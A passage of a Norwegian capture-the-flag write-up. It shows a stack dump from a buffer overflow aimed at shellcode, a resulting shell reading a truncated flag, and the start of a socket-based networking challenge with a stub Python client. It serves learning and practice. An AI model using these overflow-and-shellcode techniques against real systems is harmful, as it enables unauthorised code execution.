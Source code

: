 ```sh
0x7ffec336e020   41 41 41 41 41 41 41 41  |AAAAAAAA|
0x7ffec336e018   41 41 41 41 41 41 41 41  |AAAAAAAA|
0x7ffec336e010   41 41 41 41 41 41 41 41  |AAAAAAAA|
0x7ffec336e008   41 41 41 41 41 41 41 41  |AAAAAAAA|
&buffer          41 41 41 41 41 41 41 41  |AAAAAAAA|
&below           61 62 63 64 65 66 67 68  |abcdefgh|
&width           08 00 00 00 00 00 00 00  |........|
&shellcode_ptr   30 30 30 30 30 30 00 00  |000000..|
&p               e0 df 36 c3 fe 7f 00 00  |..6.....|

above is correct!
Next step is to adjust the stored rip to point to shellcode
$ id
uid=1004(basic4) gid=1000(login) groups=1000(login)
$ cat FLAGG
8bd49...........................
```

Vi kjører `id` for å sjekke hvem vi er nå og ser at vi har et shell som `basic4`. Dermed har vi mulighet til å kjøre `cat FLAGG` og vi er i mål!

FLAGG: `8bd49...........................`

---

## 1.5_nettverk

Vi har følgende filer

```sh
$ ls -lah
total 22K
drwxr-xr-x 2 basic5 login 1.0K Feb 12  2020 .
drwxr-xr-x 8 login  login 1.0K Feb 12  2020 ..
-rwxr-xr-x 1 basic5 login  311 Feb 12  2020 client.py
-r-------- 1 basic5 login  659 Dec 20 11:34 FLAGG
-r--r--r-- 1 basic5 login  714 Feb 12  2020 LESMEG.md
-r-s--x--x 1 basic5 login  17K Feb 12  2020 server
```

Dersom vi starter filen `server` så vil den starte å lytte på port `10015`

```sh
$ ./server
Lytter på port 10015, koble til for videre instruksjoner.
```

client.py inneholder minimumet vi trenger for å koble til serveren vår, ingenting mer:

```python
#!/usr/bin/env python3

import socket
import struct
import select

TCP_IP = "127.0.0.1"
TCP_PORT = 10015


def main():
  conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  conn.connect((TCP_IP, TCP_PORT))
  print(conn.recv(4096).decode("utf-8"))

  # ???

```